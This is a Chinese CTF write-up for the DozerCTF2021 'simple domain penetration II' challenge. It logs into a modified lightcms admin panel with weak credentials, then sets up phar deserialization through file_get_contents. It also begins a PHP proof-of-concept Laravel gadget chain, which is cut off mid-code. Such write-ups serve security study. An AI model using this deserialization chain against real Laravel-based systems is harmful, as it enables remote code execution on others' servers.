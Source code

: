 ```yaml
---
title: DozerCTF2021 简单域渗透II Writeup
author: Loong716
date: 2021-06-01 14:10:00 +0800
categories: [CTF]
tags: [CTF]
---
```



周末打了DozerCTF的域渗透题目，题目思路很好，出题人和运维师傅也都很热心的解答问题，在这里还是首先感谢金陵科技学院的师傅们精心准备的赛题

中间环境下线和不稳定的问题耽误了一些时间，我在第一天下午的时候用非预期打完了，第二天开始看预期解，最后遗憾的就是没有按预期打完整个环境

以下是在做题期间的一些思路，文章最后有一些个人对比赛中考点的延伸扩展，算是我自己对预期的考点加以实战中遇到的情况的想象吧，对应也有很多种解法，这些可以延伸出很多有意思的点

* toc
{:toc}


## 0x00 非预期

lightcms 1.3.5的RCE漏洞魔改，dozer/dozer123进后台（这个弱密码卡了我很久），可以直接读文件：

![1622266123894.png](https://i.loli.net/2021/06/01/Xp8wWFvuAj4bg3L.png)

![1622266109785.png](https://i.loli.net/2021/06/01/IERc4skzg657yVH.png)

然后读漏洞点源码，审计发现写死了上传扩展名：

![1622283838597.png](https://i.loli.net/2021/06/01/kFRryhX7G1izZLM.png)

但可以先远程下载phar文件，再利用`file_get_contents`进行phar反序列化

poc如下，利用larvel的链：

``` php
<?php
namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent
    {
      protected $connection;
      public function __construct($connection)
      {
        $this->connection = $connection;
      }
    }
}
namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;
        public function __construct($queueResolver)
        {
          $this->queueResolver = $queueResolver;
        }
    }
```